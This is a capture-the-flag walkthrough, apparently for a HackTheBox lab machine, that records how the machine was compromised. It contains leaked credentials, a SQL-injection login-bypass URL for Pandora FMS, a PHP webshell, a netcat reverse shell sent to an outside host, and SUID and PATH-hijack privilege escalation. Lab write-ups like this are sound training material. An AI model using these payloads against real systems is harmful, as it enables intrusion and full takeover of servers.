



## Initial Shell - 10.129.119.24

Initial nmap scan for UDP ports:  
`nmap -vv --reason -Pn -T4 -sU -A --top-ports 100 10.129.119.24`

SNMP scan for port 161:  
`nmap -vv --reason -Pn -T4 -sU -sV -p 161 --script="banner,(snmp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" 10.129.119.24`

Leaked credentials:  
```
daniel:HotelBabylon23
```


Login using SSH:  
`ssh daniel@10.129.119.24`

Find virtually hosted web server at /var/www/pandora

Set up dyanamic port forwarding:  
`sudo ssh -N -D 127.0.0.1:1234 daniel@10.129.104.86`

Add socks5 proxy to the /etc/proxychains4.conf file on Kali host:  
`socks5  127.0.0.1 1234`

Bypass login as admin as descibed [here](https://github.com/ibnuuby/CVE-2021-32099):  
`http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271`

Upload php websehll as admin user using the file upload tool at 
```
http://localhost/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager&directory=images/console&hash2=a80a52abc72929ff0ddfdf3790722c39  
```

Contents of php webshell:
```
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
```
Setup listener on kali box:  
`sudo nc -lvnp 445`

URL encode the payload:  
`urlencode "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 445 >/tmp/f"`

Send the encoded payload to the webshell using a browser:  
```
http://localhost/pandora_console/images/php_cmd.php?cmd=%72%6d%20%2d%66%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%31%32%20%34%34%35%20%3e%2f%74%6d%70%2f%66
```

## Escalation
**/usr/bin/at** has SUID bit on. Escape retricted shell:  
`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

**/usr/bin/pandora_backup** has SUID bit on. And references a relative path for the tar binary. Create malicous tar binary containing the following:  
```
#!/bin/bash  

bash
```

Export new path:  
`export PATH=/tmp:$PATH`

Run pandora_backup from /tmp directory:  
`/usr/bin/pandora_backup`

<div style="page-break-after: always;"></div>

## Proof
### User:  


### Root:  
